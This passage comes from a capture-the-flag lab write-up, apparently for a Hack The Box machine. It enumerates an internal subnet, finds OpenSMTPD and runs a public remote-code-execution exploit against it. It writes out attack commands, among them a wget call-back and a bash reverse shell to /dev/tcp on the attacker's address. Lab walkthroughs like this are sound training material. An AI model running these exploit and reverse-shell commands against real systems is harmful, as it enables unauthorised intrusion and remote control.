 The IP address range 10.241.251.0 is new, so all DNS entries should be checked there:
```
dnsrecon -r 10.241.251.0/24 -n 10.10.10.224 -d DoesNotMatter
```
```
PTR srvpod01.realcorp.htb 10.241.251.113
```

Scanning ports on the IP 10.241.251.113:
```
proxychains nmap -sT -Pn 10.241.251.113
```
```
PORT   STATE SERVICE
25/tcp open  smtp
```

Enumerating port 25 with script scans:
```
proxychains nmap -sT -Pn 10.241.251.113 -p 25 -sC -sV
```
```
PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello nmap.scanme.org [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
Service Info: Host: smtp.realcorp.htb
```

### Exploiting OpenSMTPD

This version of **OpenSMTPD** is old and has publicly known exploits:
```
searchsploit opensmtpd

OpenSMTPD 6.6.1 - Remote Code Execution    | linux/remote/47984.py
```

Changing the email address on line 60:
```python
# (...)
s.send(b'RCPT TO:<j.nakazawa@realcorp.htb>\r\n')
# (...)
```

Testing command execution with a `wget` command:
```
proxychains python3 47984.py 10.241.251.113 25 'wget 10.10.14.10'
```

After executing the script, the listener on my IP and port 80 receives a request from the box and proofs command execution, so lets use this to execute a reverse shell script.

Contents of reverse shell script _(shell.sh)_:
```
bash -i >& /dev/tcp/10.10.14.10/9001 0>&1
```
